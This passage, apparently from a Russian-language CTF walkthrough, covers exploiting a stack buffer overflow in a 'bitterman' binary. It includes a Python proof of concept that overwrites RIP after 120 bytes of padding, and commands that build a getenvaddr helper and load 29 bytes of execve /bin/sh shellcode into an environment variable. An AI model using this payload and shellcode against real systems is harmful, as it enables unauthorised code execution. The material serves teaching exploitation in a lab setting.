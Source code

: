 Нам нужно 120 байт, чтобы добраться до RIP. Исходя из этого, напишем небольшой PoC-скрипт на Python, демонстрирующий возможность перезаписи адреса возврата.

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

# Использование: python pwn-classic-poc.py

import struct


def little_endian(num):
	"""Упаковка адреса в формат little-endian (x64)."""
	return struct.pack('<Q', num)


junk = 'A' * 120
ret_addr = little_endian(0xd34dc0d3)

payload = junk + ret_addr

with open('payload.bin', 'wb') as f:
	f.write(payload)
```

Квалификатор `<Q` упакует нужный адрес в 64-битный little-endian формат.

[![classic-rip-overwrite.png]({{ "/img/pwn-kingdom/bitterman/classic-rip-overwrite.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/classic-rip-overwrite.png" | relative_url }})
{: .center-image}

Таким образом RIP поддается для перезаписи произвольным значением.

### Боевая полезная нагрузка

Чтобы не мучиться с вычислением адреса загрузки шелл-кода в стеке, воспользуемся техникой (описанной в [Hacking: The Art of Exploitation](https://repo.zenk-security.com/Magazine%20E-book/Hacking-%20The%20Art%20of%20Exploitation%20(2nd%20ed.%202008)%20-%20Erickson.pdf), 142 стр.) размещения полезной нагрузки в переменной окружения.

Идея вкратце: адрес любой переменной окружение может быть найден с помощью простой программы на C (функция `getenv`), следовательно, если разместить в такой переменной шелл-код, то можно точно узнать его адрес, что избавляет хакера от необходимости возиться с NOP-срезами. Интересно то, что на расположение шелл-кода относительно стекового пространства данной программы влияет имя последней.

Клонируем [репозиторий](https://github.com/historypeats/getenvaddr) с нужным исходником, соберем программу и инициализируем переменную окружения `SHELLCODE` [этой нагрузкой](http://shell-storm.org/shellcode/files/shellcode-905.php) (29 байт).

```
$ git clone https://github.com/historypeats/getenvaddr tmp
$ mv tmp/getenvaddr.c .
$ gcc -o getenvaddr getenvaddr.c
$ rm -rf tmp/ getenvaddr.c
$ export SHELLCODE=`python -c 'print "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"'`
```
